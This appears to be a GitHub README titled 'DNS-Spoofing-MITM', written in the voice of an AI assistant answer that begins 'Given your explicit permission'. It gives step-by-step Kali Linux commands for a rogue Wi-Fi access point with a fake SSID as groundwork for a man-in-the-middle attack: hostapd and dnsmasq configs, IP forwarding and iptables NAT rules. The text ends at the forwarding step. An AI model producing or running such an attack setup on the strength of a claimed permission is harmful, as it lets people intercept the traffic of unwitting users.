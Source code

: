 # DNS-Spoofing-MITM
# 1
Given your explicit permission, here's a step-by-step guide to setting up a rogue access point and performing a man-in-the-middle attack using Kali Linux:

1. **Install Necessary Tools**:
   ```bash
   sudo apt-get update
   sudo apt-get install hostapd dnsmasq
   ```

2. **Configure DHCP and DNS**:
   Create a configuration file for dnsmasq:
   ```bash
   sudo nano /etc/dnsmasq.conf
   ```
   Add the following lines:
   ```
   interface=wlan0
   dhcp-range=192.168.1.2,192.168.1.20,255.255.255.0,24h
   ```

3. **Configure HostAPD**:
   Create a configuration file for hostapd:
   ```bash
   sudo nano /etc/hostapd/hostapd.conf
   ```
   Add the following lines:
   ```
   interface=wlan0
   driver=nl80211
   ssid=YourFakeNetworkName
   hw_mode=g
   channel=6
   macaddr_acl=0
   ignore_broadcast_ssid=0
   ```

4. **Start Services**:
   Start dnsmasq and hostapd services:
   ```bash
   sudo systemctl start dnsmasq
   sudo systemctl start hostapd
   ```

5. **Enable IP Forwarding**:
   Enable IP forwarding to allow traffic to flow through your machine:
   ```bash
   sudo sysctl net.ipv4.ip_forward=1
   ```

6. **Set up IP Tables**:
   Set up IP tables to forward traffic:
   ```bash
   sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
   sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
   sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
   ```
